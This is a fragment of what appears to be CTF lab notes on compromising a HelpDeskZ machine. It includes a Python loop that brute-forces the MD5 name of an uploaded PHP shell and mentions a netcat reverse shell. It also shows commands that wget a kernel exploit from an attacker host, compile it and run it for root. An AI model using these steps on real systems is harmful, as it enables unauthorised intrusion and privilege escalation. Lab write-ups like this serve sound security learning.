 ```
```
	- **Note: Earlier we find that it doesn't work. Checking the code we see it involved checking the time and our machine time needed to match with the server clock. This is what fixed the time **:
		```python
currentTime = int((datetime.datetime.strptime(r.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())
```
	- because the code involved :
		```python
for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print 'found!'
        print url
        sys.exit(0)
```
	- Alternatively you can also switch your machine time manually to match it.
	- then passing the command while having a netcat listener should give us a reverse shell.
		- we find we are user help
## Privilege Escalation
	- then on enumeration we find
		```bash
uname -a
```
		- gives us kernel version which we find is old and thus vulnerable.
	- we get the code from github and then start a server using python:
		```bash
python -m http.server 80
```
	- using this server, from user help we wget our exploit to that machine.
		```bash
wget 10.10.14.25/44298.c
gcc 44298.c -o exploit
chmod +x exploit
./exploit
```
	- we gain root access